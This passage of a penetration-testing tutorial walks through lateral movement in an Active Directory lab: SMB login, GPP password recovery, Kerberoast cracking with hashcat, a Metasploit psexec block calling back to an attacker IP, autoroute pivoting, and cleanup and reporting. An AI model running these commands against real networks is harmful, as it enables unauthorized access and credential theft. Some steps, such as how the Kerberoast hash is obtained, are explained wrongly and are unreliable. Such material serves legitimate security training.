### **Scanning Another Machine**

Next, we scan other machines for further vulnerabilities or opportunities to expand our attack surface.


---

### **SMB Login**

We use the credentials obtained earlier to log into **SMB (Server Message Block)** on the target machine. SMB is a network file-sharing protocol, and attackers often exploit it to move laterally within a network.


---

### **Retrieving Important Files**

After logging in, we search for important files that could contain valuable data, such as passwords or sensitive configurations. We retrieve a file named `active.htb`, which contains encrypted credentials.


---

### **Decrypting the Password**

Inside the file `active.htb`, we find an encrypted password, which we will decrypt using cracking tools like **John The Ripper** or **Hashcat**.


---

### **Using the Decrypted Password**

Once we decrypt the password, we use it to access additional services or systems that are protected by the same credentials. This step is part of lateral movement in the network.


---

### **Cracking the Hash**

The decrypted password is now used to generate a hash, which we will attempt to crack using **Hashcat**. The hash is saved in the `kerberoast.txt` file for later analysis.

```bash
hashcat -m 13100 kerberoast.txt
```


---

### **Using msfconsole for SMB Exploitation**

Now that we have the necessary credentials and hashes, we use **Metasploit** to execute the **psexec** exploit via SMB. This allows us to run commands on the target machine remotely.

```bash
msfconsole
use exploit/windows/smb/psexec
set smbdomain <domain>
set smbuser <username>
set smbpass <password>
set rhosts <target_ip>
set lhost <attacker_ip>
run
```


---

### **Trying Different Targets**

If the current target does not yield the expected results, we switch to other machines on the network. Lateral movement is a key part of penetration testing and real-world attacks.


---

### **Final Result**

After exploiting multiple targets, we successfully gain access to key machines in the network. This gives us full control over the compromised systems and allows us to extract valuable data or maintain persistent access.


---

**Summary:**
This part covered the exploitation of MS17-010, using GPP/cPasswords to obtain credentials, performing Kerberoasting to extract service account hashes, and using **Metasploit** and **Hashcat** to gain access and crack passwords. These techniques are essential for performing post-exploitation activities during a penetration test or red team operation.


---

# Part 11: File Transfers, Pivoting, and Cleanup

In this part, we cover essential post-exploitation techniques like file transfers, pivoting, and maintaining access, as well as advice on writing reports and career growth in the cybersecurity field.

---

### **File Transfers**

#### **GET: Files Hosted on the Web**

To begin transferring files, we can use a simple web server to host files and then download them from the victim machine. First, we open our IP in a browser to initiate the download.


Once the files are hosted, we proceed to download them on the Windows machine from Kali.


---

#### **FTP: File Transfer Protocol**

Next, we use **FTP** for transferring files between Kali and the Windows machine. We start the FTP service on Kali.


Then, we access the FTP server on the Windows machine.


---

#### **Metasploit: File Transfer Using msfconsole**

In some cases, we use **Metasploit** to upload or download files on the target machine. After gaining access, we can upload files to the compromised system.


We successfully gain access to the target machine.


To upload a file, we use Metasploit’s file upload functionality.


Similarly, we can download files from the target machine.


---

### **Maintain Access**

To ensure we maintain access to the compromised systems, we execute certain steps in Kali. For example, we set up **Autoroute** to add routes to internal networks.

```bash
run autoroute -s 10.10.10.0/24
run autoroute -p
```

Once the routes are established, we can use a shell to access the system.


Next, we check the attacker’s machine to verify network configurations using these commands:
- **route print** – to view the route table.
- **arp -a** – to view the ARP table.
- **netstat -ano** – to see active connections.

---

### **Pivoting**

After maintaining access, pivoting to other parts of the network is a common technique. We use auxiliary tools such as **PortScan** to scan internal systems through the compromised machine.

```bash
use auxiliary/scanner/portscan/tcp
run
```

The results of the scan show open ports and services that can be exploited.


---

### **Cleanup**

Once the engagement is over, it is crucial to clean up and remove traces of the attack from the compromised system.

- Remove all executables, scripts, and temporary files from the compromised system. If possible, use a secure delete method to ensure files cannot be recovered.
- Restore any modified system settings and application configurations to their original state.
- Remove any backdoors, rootkits, or tools that were installed during the assessment.
- Delete any user accounts created for maintaining access to the system.

---

### **Report Writing**

Writing an accurate and clear report is essential in a penetration test. The report should include:

- **Executive Summary** – high-level overview of findings, impact, and recommendations.
- **Technical Details** – detailed explanation of vulnerabilities exploited, tools used, and step-by-step procedures.
- **Remediation Advice** – suggestions for fixing the issues found, including patches, configuration changes, and security controls.
  
---
